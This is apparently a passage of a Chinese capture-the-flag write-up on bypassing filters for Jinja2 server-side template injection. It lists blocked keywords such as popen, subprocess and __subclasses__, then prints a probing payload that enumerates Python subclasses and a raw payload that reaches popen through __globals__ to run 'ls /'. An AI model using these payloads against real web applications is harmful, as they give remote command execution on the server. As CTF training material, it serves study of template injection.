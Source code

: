 ```
9
0
'
"
+
%2B
%2b
join()
u
os
popen
importlib
linecache
subprocess
|attr()
request
args
value
cookie
__getitem__()
__class__
__base__
__bases__
__mro__
__subclasses__()
__builtins__
__init__
__globals__
__import__
__dic__
__getattribute__()
__getitem__()
__str__()
lipsum
current_app
```

过滤了四个字符`''`、`""`、`[`、`args`

![image-20240304185245644](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240304185245644.png)

测`os`模块在哪

```
{{x.__class__.__bases__.__getitem__(0).__subclasses__()}}
```

![image-20240304190026746](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240304190026746.png)

原始payload：

```
{{''.__class__.__bases__.__getitem__(0).__subclasses__()[132].__init__.__globals__.popen('ls /').read()}}
```
